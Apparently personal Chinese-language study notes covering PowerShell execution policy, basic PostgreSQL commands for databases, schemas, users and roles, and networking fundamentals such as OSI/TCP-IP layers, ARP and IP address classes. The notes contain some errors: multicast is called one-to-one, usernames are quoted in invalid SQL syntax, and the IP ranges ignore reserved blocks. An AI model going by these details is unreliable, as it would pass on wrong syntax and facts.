# 查看执行策略（Restricted：不能跑任何脚本）
Get-ExecutionPolicy

# 更改执行策略（RemoteSigned 允许在本地计算机上运行本地签名的脚本）
Set-ExecutionPolicy RemoteSigned
```


# 应用软件


## PostgreSql

**数值类型**

```nginx
# 数值型（Numeric Types）：
	Smallint：			# 存储整数，小范围
  integer：			# 整数类型
  bigint：				# 大整数类型
  decimal：			# 可变精度的浮点数。
	numeric：			# 可变精度的浮点数。
  real：					# 单精度浮点数。
	float4：				# 单精度浮点数。
  double：				# 双精度浮点数。
	float8：				# 双精度浮点数。
	Serial：				# 自动递增整数
	Bigserial：		# 大的自动递增整数		

# 字符型（Character Types）：
  character(n) 或 char(n)：固定长度的字符。
  character varying(n) 或 varchar(n)：可变长度的字符。
  text：可变长度的文本。

# 布尔型（Boolean Type）：
	boolean：表示真或假的布尔值。

# 日期与时间型（Date and Time Types）：
  date：日期类型，仅包含日期信息。
  time：时间类型，仅包含时间信息。
  timestamp：日期和时间类型，包含日期和时间信息。
  interval：时间间隔类型。

# 二进制型（Binary Types）：
	bytea：存储二进制数据的类型。

# 几何型（Geometric Types）：
    point：点类型。
    line：直线类型。
    lseg：线段类型。
    box：矩形类型。
    path：路径类型。
    polygon：多边形类型。
    circle：圆类型。
```

### **语法**

**数据库操作**

```nginx
#创建数据库
CREATE DATABASE mydb;

#查看所有数据库
\l

#切换当前数据库
\c mydb

#删除数据库
drop database <dbname>
```

**数据库表操作**

```nginx
#创建表
CREATE TABLE test(id int,body varchar(100));

#在表中插入数据
insert into test(id,body) values(1,'hello,postgresql');

#查看当前数据库下所有表
\d

#查看表结构，相当于desc
\d test

#创建表
CREATE TABLE COMPANY(
   ID  serial PRIMARY KEY,
   NAME           TEXT      NOT NULL,
   AGE            INT       NOT NULL,
   ADDRESS        CHAR(50),
   SALARY         REAL
);

#插入数据
INSERT INTO COMPANY (NAME,AGE,ADDRESS,SALARY)
VALUES ( 'Paul', 32, 'California', 20000.00 );

INSERT INTO COMPANY (NAME,AGE,ADDRESS,SALARY)
VALUES ('Allen', 25, 'Texas', 15000.00 );
```

**Schema**

**PostgreSQL 模式（SCHEMA）可以看着是一个表的集合。**

**一个模式可以包含视图、索引、数据类型、函数和操作符等**

```nginx
#创建schema： 
create schema myschema;

create table myschema.company(
   ID   INT              NOT NULL,
   NAME VARCHAR (20)     NOT NULL,
   AGE  INT              NOT NULL,
   ADDRESS  CHAR (25),
   SALARY   DECIMAL (18, 2),
   PRIMARY KEY (ID)
);

#删除schema： 
drop schema myschema；

#删除一个模式以及其中包含的所有对象：
DROP SCHEMA myschema CASCADE;
```

**用户操作**

```nginx
#创建用户并设置密码
CREATE USER 'username' WITH PASSWORD 'password';
CREATE USER test WITH PASSWORD 'test';


#修改用户密码
$ ALTER USER 'username' WITH PASSWORD 'password';


#数据库授权,赋予指定账户指定数据库所有权限
$ GRANT ALL PRIVILEGES ON DATABASE 'dbname' TO 'username';
#将数据库 mydb 权限授权于 test
GRANT ALL PRIVILEGES ON DATABASE mydb TO test;
#但此时用户还是没有读写权限，需要继续授权表
GRANT ALL PRIVILEGES ON ALL TABLES IN SCHEMA public TO xxx;
#注意，该sql语句必须在所要操作的数据库里执行


#移除指定账户指定数据库所有权限
REVOKE ALL PRIVILEGES ON DATABASE mydb from test

#删除用户
drop user test

# 查看用户
\du

# 在PostgreSQL中创建一个没有密码的用户
create user local_user1;

# 在PostgreSQL所在的机上，创建一个同名的用户
useradd local_user1;

# 换到local_user1用户后，就可以直接通过unix_socket登陆PostgreSQL:
# su - local_user1
[local_user1@10 ~]$ psql postgres     
psql (9.2.24)
Type "help" for help.

postgres=>
```

**PostgreSQL 角色管理**

```nginx
postgres=# CREATE ROLE david;　　//默认不带LOGIN属性
CREATE ROLE
postgres=# CREATE USER sandy;　　//默认具有LOGIN属性
CREATE ROLE
postgres=# \du
                             List of roles
 Role name |                   Attributes                   | Member of 
-----------+------------------------------------------------+-----------
 david     | Cannot login                                   | {}
 postgres  | Superuser, Create role, Create DB, Replication | {}
 sandy     |                                                | {}

postgres=# 
postgres=# SELECT rolname from pg_roles ;
 rolname  
----------
 postgres
 david
 sandy
(3 rows)

postgres=# SELECT usename from pg_user;         //角色david 创建时没有分配login权限，所以没有创建用户
 usename  
----------
 postgres
 sandy
(2 rows)

postgres=#
```

参考链接：https://juejin.cn/post/7108728363472617486


## IIS

**IIS6的请求过程**


# 网络基础

- **网络的组成：硬件、软件**
  - **硬件：计算机、网络设备、线缆**
  - **软件：应用程序**
- **网络类型**
  - 局域网（LAN）
  - **广域网（WAN）：大范围提供数据通信，互联局域网**
  - 城域网（MAN）：存储区域网络SAN
  - 内容网（CN）
  - 外联网络（Extranet）：虚拟专用网VPN
- **传输介质**
  - 同轴电缆（基本被光纤取代）
  - 双绞电缆（网线）
  - 光纤
  - 无线电波
- **拓扑图**
  - 总线型
  - 环形
  - 树形
  - 星型
  - 网状型
- **IPV4通信类型**
  - **单播：一对一通讯**
  - **广播：一对所有通讯**
  - **组播：一对一，需加入同一组内**
- **OSI七层模型**
  - **物理层：处理二进制传输**
  - **数据链路层【LLC、MAC头】：设置访问介质**
    - **定义怎么格式化数据以便进行传输和对网络的访问**
  - **网络层【IP头】：数据传输**
    - **路由数据包，选择数据传输最佳路径，逻辑寻址和路径选择**
  - **传输层：端到端连接**
  - **会话层：主机间通信**
  - **表示层：数据表示**
  - **应用层：为应用程序进程提供网络服务，如：电子邮件、文件传输**
- 对等通讯（单位）
  - 发送方的传输层 -> 接收方的传输层：网段
  - 发送方的网络层 -> 接收方的网络层：数据包
  - 发送方的数据链路层 -> 接收方的数据链路层：帧
  - 发送方的物理层 -> 接收方的物理层：位


### TCP/IP

- **四层模型以及相关的协议集**
  - 应用层：**FTP、HTTP、SMTP、DNS、TELNET协议**
  - 传输层：**TCP、UDP**
  - 网络层：**IP、ICMP、ARP、RARP**
  - 网络访问（链路）层：**各种物理通讯网络接口**
    - 为了使用数据链路层适应多种局域网，802委员会将局域网的数据链路层分为两个子层
    - **MAC子层**
      - 帧的封装和拆封、物理介质传输差错的检测、寻址、实现介质访问控制协议
    - **LLC子层**
      - 建立和释放连接、按序传输、流量控制
- **OSI模型中的应用层、表示层、会话层 对应 TCP 模型的应用层**
- **OIS模型中的数据链路层、物理层 对应 TCP模型的网络接口层**


### ARP地址解析协议

- **用于将IP地址解析为对应的物理硬件地址，也就是MAC地址**
- **在TCP/IP网络中，每个设备都有一个唯一的IP地址和MAC地址。**
- **而ARP协议则提供了一种机制，让设备可以根据IP地址获取目标设备的MAC地址**

```nginx
当一个主机需要发送数据到另一个主机时，
它首先检查自己的ARP缓存中是否有目标IP地址对应的MAC地址。
如果有，就直接使用该MAC地址发送数据。
如果没有，则会通过广播发送一个ARP请求，
询问局域网上的其他设备：谁拥有这个IP地址对应的MAC地址？
其他设备收到该请求后，如果发现自己的IP地址与请求中的目标IP地址匹配，就会响应一个ARP回复，
将自己的MAC地址提供给请求方。
这样，发送方就能够获取到目标设备的MAC地址，并将数据包发送到正确的物理硬件地址上，
从而实现设备之间的通信。

# 总结
ARP协议在局域网内部起着重要的作用，
帮助设备解析IP地址和MAC地址的映射关系，并促进了网络通信的正常进行。
```

- **其他ARP：代理ARP、免费ARP、反向ARP**


#### IP

- 网络地址：末尾全为0
- 广播地址：末尾全为1

> - **公私地址范围**
>   - A类：
>     - 公有
>       - **1.0.0.0 ~ 9.255.255.255**
>       - **11.0.0.0 ~ 126.255.255.255**
>     - 私有
>       - **10.0.0.0 ~ 10.255.255.255**
>   - B类：
>     - 公有
>       - **128.0.0.0 ~ 172.15.255.255**
>       - **172.32.0.0 ~ 191.255.255.255**
>     - 私有
>       - **172.16.0.0 ~ 172.31.255.255**
>   - C类
>     - 公有
>       - **192.0.0.0 ~ 192.167.255.255**
>       - **192.169.0.0 ~ 223.255.255.255**
>     - 私有
>       - **192.168.0.0 ~ 192.168.255.255**

#### 子网划分

VLSM可变长子网掩码
